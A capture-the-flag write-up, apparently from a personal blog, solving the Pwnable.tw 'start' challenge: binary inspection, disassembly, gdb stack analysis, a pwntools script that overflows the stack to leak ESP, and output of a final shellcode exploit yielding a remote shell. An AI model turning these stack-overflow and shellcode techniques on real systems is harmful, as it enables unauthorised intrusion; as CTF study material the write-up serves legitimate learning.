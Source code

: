 ```yaml
---
layout: single_c
title:  "Pwnable.tw Level 1 - Start"
date:   2019-08-14 1:00:16 +0530
categories: Pwnabletw
tags: ctf
classes: wide
--- 
```

### [Pwnable.tw Level 1 - start](https://pwnable.tw/challenge/#1)

file start
```bash
itpc@iTPC-LT31:~/Downloads$ file orw
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

./checksec.sh --file ./start
itpc@iTPC-LT31:~/Downloads$ ./checksec.sh --file ./start 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   ./start

itpc@iTPC-LT31:~/Downloads$ readelf -l start

Elf file type is EXEC (Executable file)
Entry point 0x8048060
There are 1 program headers, starting at offset 52

Program Headers:
Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
LOAD           0x000000 0x08048000 0x08048000 0x000a3 0x000a3 R E 0x1000

Section to Segment mapping:
Segment Sections...
00     .text 


objdump -d start -M intel

itpc@iTPC-LT31:~/Downloads$ objdump -d start -M intel

start:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
8048060:	54                   	push   esp
8048061:	68 9d 80 04 08       	push   0x804809d
8048066:	31 c0                	xor    eax,eax
8048068:	31 db                	xor    ebx,ebx
804806a:	31 c9                	xor    ecx,ecx
804806c:	31 d2                	xor    edx,edx
804806e:	68 43 54 46 3a       	push   0x3a465443
8048073:	68 74 68 65 20       	push   0x20656874
8048078:	68 61 72 74 20       	push   0x20747261
804807d:	68 73 20 73 74       	push   0x74732073
8048082:	68 4c 65 74 27       	push   0x2774654c
8048087:	89 e1                	mov    ecx,esp
8048089:	b2 14                	mov    dl,0x14
804808b:	b3 01                	mov    bl,0x1
804808d:	b0 04                	mov    al,0x4
804808f:	cd 80                	int    0x80
8048091:	31 db                	xor    ebx,ebx
8048093:	b2 3c                	mov    dl,0x3c
8048095:	b0 03                	mov    al,0x3
8048097:	cd 80                	int    0x80
8048099:	83 c4 14             	add    esp,0x14
804809c:	c3                   	ret    

0804809d <_exit>:
804809d:	5c                   	pop    esp
804809e:	31 c0                	xor    eax,eax
80480a0:	40                   	inc    eax
80480a1:	cd 80                	int    0x80
```bash

itpc@iTPC-LT31:~/Downloads$ ./start
Let's start the CTF:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

```bash
gdb-peda$ disas _start 
Dump of assembler code for function _start:
0x08048060 <+0>:	push   esp
0x08048061 <+1>:	push   0x804809d
0x08048066 <+6>:	xor    eax,eax
0x08048068 <+8>:	xor    ebx,ebx
0x0804806a <+10>:	xor    ecx,ecx
0x0804806c <+12>:	xor    edx,edx
0x0804806e <+14>:	push   0x3a465443
0x08048073 <+19>:	push   0x20656874
0x08048078 <+24>:	push   0x20747261
0x0804807d <+29>:	push   0x74732073
0x08048082 <+34>:	push   0x2774654c
0x08048087 <+39>:	mov    ecx,esp
0x08048089 <+41>:	mov    dl,0x14
0x0804808b <+43>:	mov    bl,0x1
0x0804808d <+45>:	mov    al,0x4
0x0804808f <+47>:	int    0x80
0x08048091 <+49>:	xor    ebx,ebx
0x08048093 <+51>:	mov    dl,0x3c
0x08048095 <+53>:	mov    al,0x3
0x08048097 <+55>:	int    0x80
0x08048099 <+57>:	add    esp,0x14
0x0804809c <+60>:	ret    
End of assembler dump.
gdb-peda$ break *_start+57
Breakpoint 1 at 0x8048099


gdb-peda$ r
Starting program: /home/itpc/Downloads/start 
Let's start the CTF:AAAABBBB

[----------------------------------registers-----------------------------------]
SNIPPPED
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048099 in _start ()

gdb-peda$ x/20wx $esp
0xffffd114:	0x41414141	0x42424242	0x2074720a	0x20656874
0xffffd124:	0x3a465443	0x0804809d	0xffffd130	0x00000001
0xffffd134:	0xffffd300	0x00000000	0xffffd31b	0xffffd326
0xffffd144:	0xffffd338	0xffffd368	0xffffd37e	0xffffd3af
0xffffd154:	0xffffd3c0	0xffffd3d4	0xffffd3e4	0xffffd407


we can see return value at offset 20 and saved esp at offset 24. The saved esp points to the value next to it
leak 


if we return to write esp which points to saved esp

0x08048087 <+39>:	mov    ecx,esp
0x08048089 <+41>:	mov    dl,0x14
0x0804808b <+43>:	mov    bl,0x1
0x0804808d <+45>:	mov    al,0x4
0x0804808f <+47>:	int    0x80
0x08048091 <+49>:	xor    ebx,ebx
0x08048093 <+51>:	mov    dl,0x3c
0x08048095 <+53>:	mov    al,0x3
0x08048097 <+55>:	int    0x80
0x08048099 <+57>:	add    esp,0x14
0x0804809c <+60>:	ret    
```

now write comes again we can overflow again and add shellcode and overwrite the ret value to point to shellcode 
our shell code wil be at leaked esp+20

from pwn import *
r = remote('chall.pwnable.tw', 10000)
buf="A"*20
buf+=p32(0x08048087)
r.recvuntil('CTF:')
r.send(buf)
esp=u32(r.recv()[:4])
print ("[+]ESP is at "+hex(esp))

itpc@iTPC-LT31:~/Downloads/pwnable.tw$ python start.py 
[+] Opening connection to chall.pwnable.tw on port 10000: Done
[+]ESP is at 0xffc8a790

now lets put together the exploit

start.py

and run it

itpc@iTPC-LT31:~/Downloads/pwnable.tw$ python start.py 
[+] Opening connection to chall.pwnable.tw on port 10000: Done
[+]ESP is at 0xff846ad0
[+]Sending Payload
[*] Switching to interactive mode
$ cd /home/start
$ ls
flag
run.sh
start

solved
